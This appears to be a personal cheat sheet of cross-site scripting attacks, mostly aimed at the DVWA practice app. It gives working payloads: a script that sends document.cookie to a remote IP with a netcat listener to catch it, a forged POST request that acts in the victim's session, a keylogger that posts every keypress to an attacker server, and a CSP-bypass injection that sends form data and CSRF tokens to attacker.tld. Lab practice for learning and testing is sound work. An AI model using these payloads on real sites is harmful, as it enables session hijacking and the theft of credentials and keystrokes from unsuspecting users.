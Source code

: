 # XSS

## **XSS Cookie Steal**

This works when the url query is DOM loaded in the page

Create a image object in javascript and will be loaded with the output with the document cookie query

```bash
http://localhost:81/DVWA/vulnerabilities/xss_r/?
name=
<script>
new  Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;
</script>
```

**You can catch with a webhook and netcat**

- **Webhook: `webhook.site`**
- **netcat: `nc -lvp 80`**

## Anti-bypass session hijack

I**f the server implements this you can't steal the victim's session**

- When the cookie is set the response request with set-cookie
- When the cookie is HttpOnly

**You can steal the session when the cookie is set on the request of the browser**

**Anti-Anti-bypass the HttpOnly :)**

- If the cookie is HttpOnly you can't steal the cookies but you can execute actions in the account of the user
- If you send a request to the server with the xss script injection the session will be autenticated in the victin browser

**Example:**

```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
</script>
```

- This script send a POST request and will post a message in the account of the user

## XSS Keylogger

Include this script in another website and import in the XSS attacked site

**`<script src='attackersite'></script>`**

```jsx
var l = "";   // empty string to concatenate keys onto
document.onkeypress = function (e) {
        l += e.key;
        console.log(l);  //Test line
        var req = new XMLHttpRequest();
        req.open("POST","<server goes here>", true); 	// ADD URL HERE!
        req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        req.send("data=" + l);
}
```

## **Bypass form action with Reflected XSS**

**Fucking CSP implementation**

-Work when the action of the form is specified on the URL query

When the victim clicks on the injected button the form will be sent to the attacker webhook on the href in the button

-The attacker can steal the victim's CRSF token

**Example:**

```bash
http://bugbounty.se/csp_bypass.php?
xss=<input value="CLICK ME FOR POC" type="submit" formaction="" form="subscribe" formmethod="get" /><input type="hidden" name="xss" form="subscribe" value="<link rel='subresource' href='http://attacker.tld/link-subresource'>"/>
```

**The values will be sent to: 'http://attacker.tld/link-subresource'**

**Google:**

**`"<link rel = 'subresource' href = ' http: //attacker.tld '>"`**

**Firefox:**

**`"<a href = ' http: //attacker.tld ' > "`**

(The downside being that the user has to click twice times)
